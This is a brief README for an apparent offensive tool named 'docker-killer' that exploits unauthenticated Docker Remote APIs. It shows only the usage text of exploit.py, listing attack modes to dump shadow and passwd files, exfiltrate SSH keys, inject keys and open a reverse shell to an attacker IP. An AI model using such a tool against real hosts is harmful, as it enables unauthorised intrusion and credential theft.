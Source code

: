 # docker-killer
Docker Knocker
Exploits Unauth Docker API (Docker Remote API Detection)


usage: 

exploit.py [-h] --target TARGET
--attack {dump-shadow,dump-passwd,exfil-ssh,inject-key,reverse-shell}
[--user USER] [--pubkey PUBKEY] [--listen-port LISTEN_PORT]
[--reverse-port REVERSE_PORT] [--attacker-ip ATTACKER_IP]
the following arguments are required: --target, --attack

